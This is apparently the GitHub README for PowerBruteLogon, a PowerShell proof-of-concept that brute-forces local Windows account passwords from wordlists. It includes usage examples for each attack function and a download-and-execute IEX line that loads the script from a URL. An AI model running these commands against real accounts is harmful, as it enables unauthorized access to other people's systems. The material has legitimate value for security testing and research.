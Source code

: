 # PowerBruteLogon

PowerBruteLogon is a ported version of [WinBruteLogon](https://github.com/DarkCoderSc/win-brute-logon) in pure PowerShell

⚠️ Notice: this version is slower than [WinBruteLogon](https://github.com/DarkCoderSc/win-brute-logon) but has the serious advantage of being 100% entirely coded in PowerShell. In a near future, password attempts will be distributed to separate threads to speed up the process. Also keep in mind that this method is very noisy, each failed attempt will get logged on Microsoft Windows Event Logs.

You might find useful information about the technique used in this PoC [here](https://www.phrozen.io/paper/proof-of-concept/bruteforce-windows-logon-poc)

---

## Usage

You can use this PowerShell Application whether as a PowerShell Script or as a PowerShell Module.

### Import a new PowerShell Module (Generic Explanation)

To be available, the module must first be present in a registered module path.

You can list module paths with following command:

```powershell
Write-Output $env:PSModulePath
```

Example Output:

```
C:\Users\Phrozen\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\WINDOWS\system32\WindowsPowerShell\v1.0\Modules
```

Copy the module file `<module_name>.psm1` to desired module path.

You can use bellow command to check if your module was successfully imported:

```powershell
Get-Module -ListAvailable
```

Example Output:

```
PS C:\Users\Phrozen\Desktop> Get-Module -ListAvailable


    Directory: C:\Users\Phrozen\Documents\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   <version>  <module_name>                       <available_exported_commands>

<..snip..>
```

If you don't see them, run the following commands and check back.

```powershell
Import-Module <module_name>

Import-Module <module_name>
```

### Import a new PowerShell Script (Generic Explanation)

It is not mandatory to install this application as a PowerShell module (Even if file extension is `*.psm1`)

You can also load it as a PowerShell Script. Multiple methods exists including:

Invoking Commands Using:

```powershell
IEX (Get-Content .\<module_name>.psm1 -Raw)
```

Loading script from a remote location: 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/<module_name>.psm1')
```

### Available Functions

```PowerShell
Invoke-BruteLogonAccount
Invoke-BruteLogonList
Invoke-BruteAvailableLogons
```

#### Invoke-BruteLogonAccount

Attempt to recover the password of a single defined Windows User Account.

##### Parameters

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Username (*)       | String           | None       | Target Microsoft Windows local user account  |
| WordList (*)       | String           | None       | Text file location containing password candidates |

`*` = Mandatory Options

##### Example

```powershell
Invoke-BruteLogonAccount -Username "darkcodersc" -Wordlist "C:\Temp\Wordlist.txt"`
```

![Invoke-BruteLogonAccount](images/invoke-brutelogonaccount.png)

#### Invoke-BruteLogonList

Attempt to recover the password of a list of Windows User Account.

##### Parameters

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| UserList (*)       | String           | None       | Text file location containing user candidates  |
| WordList (*)       | String           | None       | Text file location containing password candidates |

`*` = Mandatory Options

 ##### Example

```powershell
Invoke-BruteLogonList -UserList "C:\Temp\users.txt" -WordList "C:\Temp\Wordlist.txt"
```

 ![Invoke-BruteLogonAccount](images/invoke-brute-logon-list.png)

#### Invoke-BruteLogonList

Attempt to recover the password of all available local Windows User Accounts.

##### Parameters

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| IgnoreUsers        | Array Of String  | None       | A list of usernames to ignore  |
| WordList (*)       | String           | None       | Text file location containing password candidates |

`*` = Mandatory Options

##### Example

```powershell
Invoke-BruteAvailableLogons -WordList "C:\Temp\Wordlist.txt"

Invoke-BruteAvailableLogons -WordList "C:\Temp\Wordlist.txt" -IgnoreUsers "Phrozen"
```

![Invoke-BruteLogonAccount](images/invoke-bruteavailablelogons.png)

## Account Lockout Behaviour

PowerBruteLogon supports account lockout detection. When account lockout is configured on Windows (⚠️ **recommended**).

You will see the following message printed on screen:

![Invoke-BruteLogonAccount](images/account-lockout.png)

## Remove progress bar

You might find the PowerShell progressbar ennoying, for this reason you might want to remove bellow code:

```PowerShell
# Display Progress / Stats
$perc = [math]::Round((100 * $currPos) / $candidateCount)
$activity = [string]::Format("Testing candidate ""{0}"" for username ""{1}""", $candidate, $targetUser)
$status = [string]::Format("$perc% Complete:{0}/{1}", $currPos, $candidateCount)

Write-Progress -Activity $activity -Status $status -PercentComplete $perc
```

---

# Disclaimer

We are doing our best to prepare the content of this app. However, PHROZEN SASU and / or
Jean-Pierre LESUEUR cannot warranty the expressions and suggestions of the contents,
as well as its accuracy. In addition, to the extent permitted by the law, 
PHROZEN SASU and / or Jean-Pierre LESUEUR shall not be responsible for any losses
and/or damages due to the usage of the information on our app.

By using our app, you hereby consent to our disclaimer and agree to its terms.

Any links contained in our app may lead to external sites are provided for
convenience only. Any information or statements that appeared in these sites
or app are not sponsored, endorsed, or otherwise approved by PHROZEN SASU and / or
Jean-Pierre LESUEUR. For these external sites, PHROZEN SASU and / or Jean-Pierre LESUEUR
cannot be held liable for the availability of, or the content located on or through it.
Plus, any losses or damages occurred from using these contents or the internet
generally.

---

Made with ❤️ in 🇫🇷
